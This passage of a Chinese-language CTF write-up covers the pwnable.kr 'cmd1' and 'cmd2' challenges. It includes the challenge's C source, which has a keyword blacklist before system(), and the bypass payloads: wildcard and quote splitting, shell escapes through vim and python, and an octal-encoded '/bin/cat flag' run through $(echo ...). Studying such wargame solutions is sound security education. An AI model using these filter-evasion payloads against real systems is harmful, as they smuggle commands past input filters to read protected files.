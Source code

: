比如`./cmd1 '/bin/cat f*'` , `./cmd1 "/bin/cat 'fla''g'"`。

还比如`./cmd1 '/usr/bin/vim'`，然后再在vim里`:open flag`。
或者`./cmd1 '/usr/bin/python'`,再在python里`open('flag','r').read()`

或者各种encode技巧等等。

`mommy now I get what PATH environment is for :)`



### cmd2

> Daddy bought me a system command shell.
> but he put some filters to prevent me from playing with it without his permission...
> but I wanna play anytime I want!
>
> ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)

源码：

```cpp
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

设置了PATH，还过滤了“/”，我想到的是用八进制encode。
```
./cmd2 '$(echo "\057\0142\0151\0156\057\0143\0141\0164\040\0146\0154\0141\0147")'
```
